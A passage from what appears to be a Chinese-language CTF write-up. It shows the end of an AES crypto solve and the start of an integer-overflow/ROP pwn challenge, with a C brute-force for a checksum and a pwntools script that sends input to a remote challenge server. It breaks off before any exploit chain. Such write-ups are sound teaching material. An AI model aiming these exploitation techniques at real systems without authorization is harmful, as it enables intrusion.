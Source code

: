 ```python
	#BS = AES.block_size # aes数据分组长度为128 bit
	key="asdfghjkl1234567890qwertyuiopzxc"
	demo = aesdemo(key)
	#e = demo.encrypt(flag)
	msg="524160f3d098ad937e252494f827f8cf26cc549e432ff4b11ccbe2d8bfa76e5c6606aad5ba17488f11189d41bca45baa"
	demo.decrypt(a2b_hex(msg))
```

### 0x4. Pwn - overInt - 100 pt
整数溢出 + ROP 题。

先看看保护，只开了 NX。拖进 IDA，先看 `main()` 函数开头几句，是这样：

![](https://i.loli.net/2018/12/04/5c0692f320ab8.png)

读 4 字节到 `buf` 里，把这 4 字节解释为一个 `int`（注意小尾序），存到 `buf_int` 里。`buf` 其实是指向 `v9` 的指针，而接下来把 `&v8` 传入（其实相当于传的是 `buf`，因为传入的函数里直接跳过了 `v8` 从 `v9` 开始处理）`sub_4007D1` 进行计算，若返回 `35` 程序才继续往下走。

`sub_4007D1` 的计算比较简单，写了个 C 程序来爆破什么样的输入能让其返回 `35`：

```c
#include <stdio.h>

int main() {
	int v3 = 0;
	for (int a=0; a<256;a++)
		for (int b=0;b<256; b++)
			for (int c=0;c<256;c++)
				for (int d=0; d<256;d++) {
					if (a<30 || b<30) continue;
					v3 = 0;
					v3 = ((char)(a >> 4) + 4 * v3) ^ (a << 10);
	                v3 = ((char)(b >> 4) + 4 * v3) ^ (b << 10);
	                v3 = ((char)(c >> 4) + 4 * v3) ^ (c << 10);
	                v3 = ((char)(d >> 4) + 4 * v3) ^ (d << 10);
	                if ((v3 % 47 + (v3 % 47 < 0  ? 47 : 0)) == 35) {
	                	printf("%x\t%x\t%x\t%x\n",a,b,c,d);
					}
				}
}
```

结果有很多组这样的输入，就随便挑一组 `\x1e\x28\x7a\x61` 吧。先用脚本测试一下是不是真的通过了 `35` 的测试：

```python
from pwn import *

context.log_level = 'debug'

#p = process('./overInt')
p = remote('58.20.46.148',35272)

#gdb.attach(p)

def pwn_main():
	p.recvuntil('number: \n')
	p.send('\x1e\x28\x7a\x61')
	
	p.interactive()

pwn_main()
```
